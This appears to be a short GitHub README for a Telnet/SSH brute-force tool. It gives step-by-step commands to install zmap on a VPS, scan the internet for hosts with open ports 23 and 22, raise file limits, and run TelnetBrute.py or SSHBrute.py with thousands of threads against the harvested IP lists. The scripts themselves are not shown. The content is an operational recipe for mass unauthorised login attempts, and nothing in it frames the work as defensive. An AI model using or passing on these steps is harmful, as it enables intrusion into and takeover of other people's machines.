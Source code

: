 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet/Ssh Ips

1- zmap -p23 -o mfu.txt -N 25000    OR    zmap -p22 -o mfussh.txt -w -N 25000

   1,5-- zmap -p23 -o mfu.txt -w example.lst 

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutrl.txt 15000 telnettest.txt    OR    python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



